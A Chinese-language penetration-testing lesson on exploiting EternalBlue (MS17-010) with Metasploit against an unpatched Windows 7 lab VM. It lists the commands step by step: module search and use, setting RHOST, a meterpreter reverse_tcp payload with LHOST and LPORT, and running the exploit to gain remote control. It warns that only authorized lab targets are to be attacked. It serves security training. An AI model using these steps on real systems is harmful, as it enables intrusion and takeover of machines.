




# 网络安全系统教程：P11：3.漏洞攻击-msf攻击永恒之蓝 🎯

## 概述
在本节课中，我们将学习如何使用Metasploit Framework（MSF）来攻击一个著名的漏洞——“永恒之蓝”（MS17-010）。我们将从搜索模块开始，逐步完成目标设置、参数配置，最终执行攻击并获取目标系统的控制权。整个过程将分为三个清晰的步骤，确保即使是零基础的初学者也能跟上。

---

## 第一步：搜索与使用模块 🔍
上一节我们介绍了漏洞攻击的基本概念，本节中我们来看看如何针对“永恒之蓝”漏洞进行实际操作。第一步是找到并启用正确的攻击模块。

在MSF中，有上千个模块可供选择。要找到能扫描和攻击“永恒之蓝”的模块，我们需要进行搜索。这个漏洞在2017年之前的所有Windows操作系统中普遍存在（Windows XP和Windows 2000等过老系统除外），因此影响范围很广。

搜索模块的命令非常简单，直接使用 `search` 即可。你可以搜索“永恒之蓝”的中文名，或者搜索该漏洞的特定编号。每个漏洞都会被分配一个唯一的编号，例如“永恒之蓝”被微软官方列为2017年第10号漏洞，其编号为 **MS17-010**。

以下是搜索模块的具体方法：
*   **命令**：`search ms17-010`
*   **作用**：在MSF数据库中查找所有与MS17-010相关的模块。

执行搜索后，通常会返回四个模块。我们不需要完全理解每个单词，只需关注后面的“description”（描述信息）。从模块名称也能大致判断其用途：
*   **exploit**：用于执行漏洞攻击的脚本。
*   **auxiliary**：辅助模块，通常用于检测漏洞是否存在。

找到攻击模块后，我们需要“使用”它。使用模块有两种方法：
1.  使用模块的序号，例如 `use 0`。
2.  使用模块的全称，例如 `use exploit/windows/smb/ms17_010_eternalblue`。

选择其中一种方法执行即可进入该模块的上下文环境。

---

## 第二步：配置模块参数 ⚙️
成功使用模块后，我们进入第二步：配置必要的参数。就像设置手机需要调节亮度、音量一样，攻击模块也有其必须设置的选项。

要查看当前模块有哪些可设置项，可以使用命令 `show options` 或其简写 `options`。执行后，会显示一个“Module options”（模块选项）列表，其中包含设置项名称、是否为必选项（Required）以及描述信息（Description）。

目前，最重要的必选项是 **RHOST**。它的描述是“The target address”（目标地址），即你需要攻击哪台机器。为了演示，我们需要一台存在“永恒之蓝”漏洞的靶机。

以下是获取和设置靶机的步骤：
1.  **获取靶机镜像**：可以访问MSDN等网站，下载2017年之前的原生Windows系统镜像（如Windows 7 64位），确保其未打补丁。
2.  **安装靶机**：将下载的镜像安装到VMware等虚拟机软件中，并确保其与你的Kali攻击机处于同一局域网。
3.  **测试连通性**：在Kali中，使用 `ping <靶机IP>` 命令测试是否能与靶机通信。靶机的IP地址可以在其系统中通过 `ipconfig` 命令查看。
4.  **设置目标**：在MSF模块中，使用命令 `set RHOST <靶机IP>` 来指定攻击目标。

设置完RHOST后，再次运行 `show options`，你会看到所有必选项都已设置完成。

接下来，我们需要关注 **Payload** 选项。Payload是攻击载荷，即攻击成功后真正在目标机器上执行的代码。在最新版MSF中，默认的Payload通常是正确的（例如 `windows/x64/meterpreter/reverse_tcp`）。如果需要更改，可以使用 `set PAYLOAD <Payload路径>` 命令。

在Payload的选项中，有两个关键参数：
*   **LHOST**：监听地址，即攻击者（Kali）的IP地址。MSF通常会尝试自动填充。
*   **LPORT**：监听端口，范围是0-65535，只要未被占用即可随意设置，例如 `set LPORT 60000`。

完成所有设置后，再次运行 `show options` 确认一切就绪。

---

## 第三步：执行攻击 🚀
配置工作全部完成后，就可以执行最后一步：发起攻击。这一步非常简单，只需输入命令 `run` 或 `exploit`。

执行后，MSF会将攻击载荷发送到目标机器。如果目标存在漏洞且网络配置正确，攻击将会成功。成功后，你会看到一个 **meterpreter** 会话被建立。`meterpreter` 是MSF提供的一个强大的后渗透工具，它意味着你已经获得了目标系统的控制权。

**请注意**：此实验仅在虚拟环境中的靶机上进行。不要攻击任何未经授权的真实系统。“永恒之蓝”攻击可能导致系统蓝屏，且现代系统（如Windows 10/11）已修复此漏洞。

---

## 总结与举一反三 📚
本节课我们一起学习了使用MSF攻击“永恒之蓝”漏洞的完整流程，可以总结为以下三步：

1.  **使用模块**：`use` 命令。
2.  **配置参数**：`show options` 查看并 `set` 关键参数（**RHOST**, **PAYLOAD**, **LHOST**, **LPORT**）。
3.  **执行攻击**：`run` 命令。

这个流程是MSF中攻击绝大多数漏洞的通用模式。无论是针对Android的漏洞，还是未来可能出现的新漏洞（如假设的MS23-010），其操作逻辑都是相似的。正是因为这种一致性和易用性，MSF才成为渗透测试领域如此广泛使用的工具。掌握这个基本框架，你就能举一反三，应对各种漏洞攻击场景。

---
**核心命令回顾**：
*   搜索：`search <关键词/编号>`
*   使用：`use <模块名/编号>`
*   查看选项：`show options`
*   设置参数：`set <参数名> <值>`
*   执行：`run` / `exploit`